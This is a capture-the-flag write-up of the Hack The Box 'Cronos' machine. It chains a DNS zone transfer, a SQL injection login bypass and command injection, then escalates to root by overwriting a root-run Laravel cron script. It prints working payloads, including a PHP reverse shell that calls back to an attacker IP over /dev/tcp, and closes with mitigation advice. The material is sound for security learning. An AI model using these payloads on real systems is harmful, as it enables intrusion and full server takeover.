








# 🖥️ Hack The Box - Cronos | Linux Penetration Testing

---


<p align="center">
  
</p>

🔗 [Hack The Box Machine - Cronos](https://app.hackthebox.com/machines/Cronos?sort_by=created_at&sort_type=desc)


---


## 📌 Overview

| Field | Details |
|---|---|
| Platform | Hack The Box |
| Operating System | Linux |
| Difficulty | Medium |
| Focus | Web Security, Enumeration, Privilege Escalation |
| Key Techniques | DNS Zone Transfer, SQL Injection, Command Injection, Cron Job Abuse |
| Tools | Nmap, dig, Netcat |

## 🧭 Attack Path

**DNS Enumeration → Zone Transfer → SQL Injection → Authentication Bypass → Command Injection → Remote Code Execution → Cron Job Privilege Escalation → Root**


---


## 📖 Introduction

This writeup documents the exploitation process of the Hack The Box **Cronos** machine, a Linux target exposing multiple vulnerabilities through misconfigured DNS services and insecure web application functionality.

The objective of this challenge was to identify exposed services, enumerate DNS records, gain remote code execution through command injection in the web application, and escalate privileges to achieve full system compromise.

The attack path involved abusing a DNS zone transfer vulnerability to discover hidden subdomains, bypassing authentication through SQL injection, exploiting command injection to obtain remote code execution as `www-data`, and leveraging a writable root-executed Laravel scheduled task to obtain root privileges.


---


## 🔎 Enumeration

An initial Nmap scan was performed against the target system to identify open ports and running services.

```bash
nmap -sC -sV -T4 10.129.227.211
```




The scan identified several exposed services:

- `SSH (22/tcp)` running OpenSSH
- `DNS (53/tcp)` running ISC BIND
- `HTTP (80/tcp)` running Apache httpd 2.4.18


Particular attention was given to the DNS service exposed on port `53/tcp`. DNS servers can sometimes be misconfigured to allow **zone transfers (AXFR)**, which may disclose internal hostnames and subdomains useful for further enumeration.

Additionally, the Apache web server running on port `80/tcp` suggested that further web application enumeration could reveal additional attack vectors.


---


## 🌐 DNS Enumeration

Since the DNS service exposed on port `53/tcp` appeared to be running ISC BIND, a DNS zone transfer attempt was performed in order to enumerate potential subdomains associated with the target.


```bash
dig axfr @10.129.227.211 cronos.htb
```





The zone transfer was successful and revealed several hostnames, including:


- `admin.cronos.htb`


In order to access the discovered virtual host, it was added to the attacker's `/etc/hosts` file for local name resolution:


```text
10.129.227.211 admin.cronos.htb
```


After browsing to `http://admin.cronos.htb`, a login panel was discovered.





---


## 🔓 Web Authentication Bypass


Authentication testing revealed that the login functionality was vulnerable to SQL injection authentication bypass. By submitting the following payload in the username field:

```sql
admin' or '1'='1
```




The payload successfully bypassed authentication, granting access to the administrative panel.


---


## 💻 Remote Code Execution

### 🔹 Command Injection Enumeration

After successfully bypassing authentication, access to an administrative network utility panel was obtained.

The application allowed user-supplied input to be passed directly into system commands without proper sanitization, making it vulnerable to **command injection**.

Command execution was confirmed by injecting additional shell commands into the vulnerable input field:


```bash
8.8.8.8 ; whoami
```





The application returned:

```text
www-data
```

confirming that arbitrary commands were being executed on the server as the `www-data` user.


---


## ⬆️ Privilege Escalation


### 🔹 Post-Exploitation Enumeration


Post-exploitation enumeration revealed a scheduled task configured to execute the Laravel `artisan` script as the `root` user every minute.

The cronjob configuration contained the following entry:

```text
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```





Additional enumeration showed that the `artisan` file was writable by the `www-data` user:

```text
-rwxr-xr-x 1 www-data www-data /var/www/laravel/artisan
```





This created a privilege escalation opportunity, since modifying the contents of the script would result in arbitrary code execution as `root`.


### 🔹 Obtaining a Root Shell

A Netcat listener was started on the attacking machine:

```bash
nc -lvnp 4444
```

The vulnerable `artisan` file was then overwritten through command injection with a PHP reverse shell payload:

<details>
<summary>PHP Reverse Shell Payload</summary>
  
```bash
ping 1.1.1.1 ; echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.97/4444 0>&1'\''"); ?>' > /var/www/laravel/artisan
```
</details>

Once the scheduled task executed, a reverse shell connection was received on the listener.

Privilege escalation was confirmed using:

```bash
whoami
```




which returned:

```text
root
```

This resulted in full administrative control over the target system.


---


## 📌 Conclusion

Cronos demonstrated how multiple misconfigurations and web application vulnerabilities can be chained together to achieve full system compromise.

The attack began with DNS enumeration through a successful zone transfer, which exposed hidden subdomains associated with the target. A vulnerable login panel was then bypassed using SQL injection, granting access to an administrative interface vulnerable to command injection.

Remote code execution as the `www-data` user allowed further system enumeration, ultimately revealing a writable Laravel scheduled task executed automatically by `root`. By overwriting the writable Laravel `artisan` script with a reverse shell payload, arbitrary code execution was achieved with `root` privileges.

This machine highlights the risks associated with insecure DNS configurations, vulnerable web application logic, insufficient input sanitization, and improperly secured scheduled tasks running with elevated privileges.


---


## 🧠 Key Takeaways

- DNS enumeration can expose additional attack surfaces that are not immediately visible through standard web enumeration.
- Multiple weaknesses can become significantly more severe when chained together across different layers of a system.
- Writable files or scripts executed by privileged scheduled tasks can lead to full system compromise.
- Successful exploitation should always be followed by an assessment of impact and practical remediation measures.


---


## ⚠️ Impact

Successful exploitation of the target system resulted in full compromise of the Linux server.

An attacker was able to:

- Enumerate internal infrastructure through an exposed DNS zone transfer
- Discover hidden subdomains associated with the target
- Bypass authentication using SQL injection
- Execute arbitrary system commands through command injection
- Achieve remote code execution as the `www-data` user
- Abuse a writable Laravel scheduled task executed by `root`
- Obtain a fully interactive root shell

With root-level access, an attacker would have complete administrative control over the server, including the ability to access sensitive data, modify configurations, maintain persistence, or deploy additional malicious payloads across the environment.


---


## 🛡️ Mitigation

Several security measures could prevent the attack path demonstrated in this machine:

- Restrict DNS zone transfers (AXFR) to trusted name servers only
- Disable unnecessary DNS information disclosure
- Implement parameterized queries to prevent SQL injection vulnerabilities
- Properly sanitize and validate user input to prevent command injection
- Restrict access to administrative interfaces and sensitive subdomains
- Apply the principle of least privilege to web application service accounts
- Prevent unprivileged users from modifying scripts executed by privileged accounts
- Monitor and audit scheduled tasks such as cronjobs
- Implement outbound traffic restrictions to reduce the risk of reverse shell payloads

🔒 Applying these controls would significantly reduce the risk of remote code execution and privilege escalation attacks.


